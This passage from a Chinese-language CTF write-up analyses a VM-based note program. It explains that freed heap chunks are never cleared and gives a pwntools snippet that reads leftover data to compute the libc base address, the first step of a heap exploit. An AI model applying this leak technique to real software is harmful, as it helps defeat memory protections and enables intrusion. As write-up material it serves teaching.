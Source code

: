 ```
//edit
0x1c7    jmp    #0x14a
0x1cc    call    #0x3d5
//dlt
0x1d1    jmp    #0x14a
0x1d6    leave
0x1d7    ret
```



## 漏洞分析与利用

### <a class="reference-link" name="%E5%9C%B0%E5%9D%80%E6%B3%84%E6%BC%8F"></a>地址泄漏

在note程序的表单的new功能中在vm中调用`add_note`来实现。整个过程中都没有对chunk的数据来进行清空，因此可以通过show功能来输出表单中残留的地址。

```
void *__fastcall add_note(size_t size)
`{`
  void *data; // [rsp+18h] [rbp-8h]

  data = malloc(size);
  if ( check_chunk(data) )
    exit(0);
  write_struct(data, size);
  return data;
`}`
_QWORD *__fastcall write_struct(__int64 chunk_ptr, int size)
`{`
  _QWORD *ptr; // rax

  ptr = malloc(0x18uLL);
  *ptr = chunk_ptr;
  ptr[2] = chunk_list;
  *(ptr + 2) = size;
  chunk_list = ptr;
  return ptr;
`}`
```

在尝试中，我申请了0x60大小的基本块之后输出其中残留的内容，能够找到一个libc上的地址，而且经过几次尝试发现是稳定的。于是这样我们就能够获得libc的地址(意外的收获！)。

```
p.sendlineafter('choice&gt;&gt; ', '1')
p.sendlineafter("idx: ", str(0))
p.sendlineafter("size: ", str(0x60))
p.sendafter("content: ", b'\xff')
show(0)
p.recvuntil("content: ")
libc = u64(p.recvuntil("\n")[:-1].ljust(8, b'\x00')) - 0x1ebbff
print("libc:", hex(libc))
```
